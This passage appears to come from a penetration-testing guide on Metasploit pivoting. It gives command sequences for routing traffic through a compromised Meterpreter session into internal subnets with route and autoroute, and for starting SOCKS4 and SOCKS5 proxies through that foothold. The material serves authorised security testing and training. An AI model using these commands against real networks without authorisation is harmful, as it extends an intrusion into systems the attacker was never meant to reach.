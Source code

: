 ## 5. Metasploit Framework: Comprehensive Pivoting Integration

:::note
The following commands assume you have a running Metasploit Framework instance and Meterpreter payloads are properly established. Adjust network addresses, session IDs, and handler parameters to match your engagement.
:::

The Metasploit Framework provides extensive pivoting capabilities through integrated session management, automated routing, and payload coordination.

### 5.1 Session-Based Routing Configuration

```bash
# Manual route addition
msf > route add 10.10.10.0/24 1

# Automated route discovery and configuration
msf > use post/multi/manage/autoroute
msf post(autoroute) > set SESSION 1
msf post(autoroute) > set SUBNET 10.10.10.0
msf post(autoroute) > set NETMASK 255.255.255.0
msf post(autoroute) > run

# Automatic network discovery
meterpreter > run autoroute -auto

# Add specific subnet routes
meterpreter > run autoroute -s 192.168.1.0/24
meterpreter > run autoroute -s 172.16.0.0/16

# View current routing table
msf > route print

# Delete specific route
msf > route delete 10.10.10.0/24 1

# Flush all routes for session
msf > route flush 1
```

### 5.2 SOCKS Proxy Implementation

```bash
# Start SOCKS4 proxy
msf > use auxiliary/server/socks4a
msf auxiliary(socks4a) > set SRVPORT 9050
msf auxiliary(socks4a) > run -j

# Start SOCKS5 proxy with authentication
msf > use auxiliary/server/socks_proxy
msf auxiliary(socks_proxy) > set SRVPORT 9050
msf auxiliary(socks_proxy) > set VERSION 5
msf auxiliary(socks_proxy) > set USERNAME user
msf auxiliary(socks_proxy) > set PASSWORD pass
msf auxiliary(socks_proxy) > run -j

# SOCKS proxy with custom interface binding
msf auxiliary(socks_proxy) > set SRVHOST 127.0.0.1
msf auxiliary(socks_proxy) > run -j

# Stop SOCKS proxy
msf > jobs -k [job_id]
```